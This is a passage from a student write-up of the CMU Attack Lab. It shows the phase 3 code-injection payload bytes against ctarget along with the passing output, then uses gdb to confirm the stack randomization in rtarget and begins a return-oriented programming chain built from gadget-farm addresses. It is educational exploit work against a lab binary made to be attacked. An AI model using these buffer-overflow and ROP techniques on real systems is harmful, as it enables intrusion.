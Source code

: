     ```
    LD_PRELOAD=./printf.so ./ctarget -q -i phase_3/phase_3_exploit_raw.txt

    Cookie: 0x59b997fa
    Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 B0 DC 61 55 00 00 00 00 FA 18 40 00 00 00 00 00 48 C7 C7 B8 DC 61 55 C3 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 
    ```

### Phase 4
- `rtarget` employs randomization so that the stack positions differ from one run to another
    - We set breakpoints at `0x4017af` right before `Gets` function called

        ```
        (gdb) break *0x4017af
        Breakpoint 1 at 0x4017af: file buf.c, line 14.
        ```

    - We check `%rsp` value of two runs, they are different to prove randomization usage

        ```
        (gdb) print /x $rsp
        $1 = 0x7ffffffe9b60
        ```

        ```
        (gdb) print /x $rsp
        $2 = 0x7ffffffd5b70
        ```

- We use return-oriented programming
    - Ideally, we need the below instruction 

        ```
        popq %rdi
        ```

    - However, the gadget farm only has `popq %rax` instruction (`58`) followed by `nop` instruction

        ```
        00000000004019a7 <addval_219>:
        4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
        4019ad:	c3                   	ret    
        ```

        ```

        00000000004019ca <getval_280>:
        4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
        4019cf:	c3                   	ret    
        ```
        - So we have gadget 1: `popq %rax`, one of addresses: `0x4019ab`
